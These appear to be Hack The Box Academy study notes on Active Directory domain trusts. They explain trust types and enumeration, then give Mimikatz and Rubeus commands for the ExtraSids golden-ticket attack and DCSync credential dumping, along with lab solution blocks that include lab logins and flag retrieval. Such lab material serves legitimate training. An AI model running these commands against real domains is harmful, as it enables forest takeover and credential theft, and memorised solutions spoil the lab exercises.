

### Domain Trusts Overview

```
# A trust is used to establish forest-forest or domain-domain (intra-domain) authentication, 
# which allows users to access resources in (or perform administrative tasks) another domain, 
# outside of the main domain where their account resides. 
# A trust creates a link between the authentication systems of two domains and 
# may allow either one-way or two-way (bidirectional) communication. 

# An organization can create various types of trusts:

- Parent-child: Two or more domains within the same forest. The child domain has a two-way transitive trust with the parent domain, 
  meaning that users in the child domain corp.inlanefreight.local could authenticate into the parent domain inlanefreight.local, 
  and vice-versa.

- Cross-link: A trust between child domains to speed up authentication.

- External: A non-transitive trust between two separate domains in separate forests which are not already joined by a forest trust. 
  This type of trust utilizes SID filtering or filters out authentication requests (by SID) not from the trusted domain.

- Tree-root: A two-way transitive trust between a forest root domain and a new tree root domain. 
  They are created by design when you set up a new tree root domain within a forest.

- Forest: A transitive trust between two forest root domains.

- ESAE: A bastion forest used to manage Active Directory.
```


```
# Trusts can be transitive or non-transitive. (Like netwrorks in VPC in Cloud as example)

# Trust Table Side By Side

Transitive 	                                        Non-Transitive
Shared, 1 to many 	                                Direct trust
The trust is shared with anyone in the forest 	    Not extended to next level child domains
Forest, tree-root, parent-child, 
and cross-link trusts are transitive 	            Typical for external or custom trust setups
```

```
# Below is a graphical representation of the various trust types.
```




### Enumerating Trust Relationships

```
# We can use the Get-ADTrust cmdlet to enumerate domain trust relationships. 
# This is especially helpful if we are limited to just using built-in tools.

PS C:\htb> Import-Module activedirectory
PS C:\htb> Get-ADTrust -Filter *

# After importing PowerView, we can use the Get-DomainTrust function to enumerate what trusts exist, if any.

PS C:\htb> Get-DomainTrust 

# Using Get-DomainTrustMapping

PS C:\htb> Get-DomainTrustMapping

# Checking Users in the Child Domain using Get-DomainUser

PS C:\htb> Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```

```
# Using netdom to query domain trust (CMD)

C:\htb> netdom query /domain:inlanefreight.local trust

# Using netdom to query domain controllers 

C:\htb> netdom query /domain:inlanefreight.local dc

# Using netdom to query workstations and servers

C:\htb> netdom query /domain:inlanefreight.local workstation
```

```
# We can also use BloodHound to visualize these trust relationships by using the Map Domain Trusts pre-built query.
```

### Task Solution

```
# RDP to 10.129.99.141 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!" 

xfreerdp /v:10.129.99.141 /u:htb-student /p:Academy_student_AD!

Get-ADTrust -Filter *                        # With buil-in AD module (Less structed, more info)

Import-Module ./PowerView.ps1  
Get-DomainTrust                              # With PowerView (less info, main info for all questions)

# More options to query with netdom

netdom query /domain:inlanefreight.local trust
netdom query /domain:inlanefreight.local dc
netdom query /domain:inlanefreight.local workstation
```

### Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```
# SID History Primer / ExtraSids Attack - Mimikatz

# To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

# Obtaining the KRBTGT Account's NT Hash using Mimikatz

PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt

# We can use also the PowerView Get-DomainSID function to get the SID for the child domain (already viewed with mimikatz)

PS C:\htb> Get-DomainSID

# Obtaining Enterprise Admins Group's SID using Get-DomainGroup

PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

# At this point, we have gathered the following data points:

- The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: hacker
- The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
- The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519

# Using ls to Confirm No Access

PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

# Creating a Golden Ticket with Mimikatz

PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# Confirming a Kerberos Ticket is in Memory Using klist

PS C:\htb> klist

# Listing the Entire C: Drive of the Domain Controller

PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```

### ExtraSids Attack - Rubeus

```
# Using ls to Confirm No Access Before Running Rubeus

PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

# Creating a Golden Ticket using Rubeus

PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

# Once again, we can check that the ticket is in memory using the klist command.
```

### Performing a DCSync Attack

```
# Finally, we can test this access by performing a DCSync attack against the parent domain, 
# targeting the lab_adm Domain Admin user.

PS C:\Tools\mimikatz\x64> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm

# When dealing with multiple domains and our target domain is not the same as the user's domain, 
# we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. 
# The command for this would look like the following:

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```


### Task Solution

```
# RDP to 10.129.116.255 (ACADEMY-EA-DC02) with user "htb-student_adm" and password "HTB_@cademy_stdnt_admin!" 

xfreerdp /v:10.129.116.255 /u:htb-student_adm /p:HTB_@cademy_stdnt_admin!

Import-Module PowerView.ps1                           # Get child SID
Get-DomainSID                                          

mimikatz.exe                                          # Get 2nd SID, and oher info
privilege::debug
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt

# Get info in overall

- The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: hacker
- The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
- The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519


ls \\academy-ea-dc01.inlanefreight.local\c$           # Check access to DC
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

PS C:\Tools\mimikatz\x64> klist                       # Check created golden ticket

ls \\academy-ea-dc01.inlanefreight.local\c$                        # Check access again
cat \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids/flag.txt    # CTF

# Rubeus option

Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

klist 

# Performing a DCSync attack against the parent domain, targeting the lab_adm Domain Admin user

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```
-----------------------------------------------------------